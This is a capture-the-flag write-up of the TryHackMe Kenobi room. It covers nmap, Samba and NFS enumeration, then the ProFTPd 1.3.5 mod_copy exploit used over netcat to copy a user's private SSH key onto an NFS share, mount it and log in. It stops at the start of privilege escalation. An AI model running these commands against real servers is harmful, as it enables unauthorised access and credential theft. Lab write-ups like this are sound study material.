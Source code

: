 ```yaml
---
layout: md
title: TryHackMe Kenobi Room
description: Notes on tryhackme.com's kenobi challenge
tags: ['security', 'tryhackme']
categories: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

### Recon

#### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
    [... removed ...]
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-04-22T04:43:37-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T09:43:38
|_  start_date: N/A
```

Samba share enum:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:47 BST
Nmap scan report for 10.10.11.75
Host is up (0.57s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.11.75\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.11.75\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.11.75\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

nfs scan:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```
Shows /var can be mounted via nfs.

#### Samba
Connect:
```bash
smbclient //<ip>/anonymous
```

Recursive download:
```bash
smbget -R smb://<ip>/anonymous
```
This gave a `log.txt` with some information about usernames, ssh key locations and the ftp service.

#### Searchspoilt
```bash
searchsploit proftp 1.3.5 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------ ---------------------------------

searchsploit -p linux/remote/36742.txt
```
linux/remote/36742.txt shows an example of using nc and ProFTPd 1.3.5 to copy files.

### Exploitation

#### Netcat -> ProFTPd File copy
We know the location of the ssh key from `log.txt` and a nfs location of `/var`.

```bash
nc 10.10.11.75 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.11.75]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Retrieving key
```
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

#### Using Key
```
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

#### Privilege Esculation

#### Searching for root suid binaries
```
find / -perm -u=s -type f 2>/dev/null

```
/usr/bin/menu
This is a menu application with afew options of commands to run 




